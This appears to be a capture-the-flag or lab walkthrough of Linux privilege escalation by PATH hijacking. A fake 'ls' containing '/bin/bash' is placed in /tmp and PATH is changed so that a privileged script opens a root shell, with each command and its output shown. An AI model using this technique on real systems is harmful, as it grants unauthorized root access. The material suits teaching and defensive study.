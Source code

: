 #### Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?
```bash
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
# probably ls command
```

#### Now we know what command to imitate, let's change directory to "tmp". 
```bash
user5@polobox:~$ cd /tmp
user5@polobox:/tmp$
```

#### Crate imitation executable: `echo "[whatever command we want to run]" > [name of the executable we're imitating]`. What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating
```bash
user5@polobox:/tmp$ echo "/bin/bash" > ls
```

#### Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?
```bash
user5@polobox:/tmp$ chmod +x ls
```

#### Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "`ls`" stored! We do this using the command "`export PATH=/tmp:$PATH`". 
```bash
user5@polobox:/tmp$ export PATH=/tmp:$PATH
user5@polobox:/tmp$ ls
Welcome to Linux Lite 4.4 user5
 
Monday 11 January 2021, 02:12:38
Memory Usage: 336/1991MB (16.88%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:/tmp$
user5@polobox:/tmp$
```

#### Now, change directory back to user5's home directory.
```bash
user5@polobox:~$ cd ~
```

#### Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!
```bash
user5@polobox:~$ ./script 
Welcome to Linux Lite 4.4 user5
 
Monday 11 January 2021, 02:15:43
Memory Usage: 343/1991MB (17.23%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# 
```
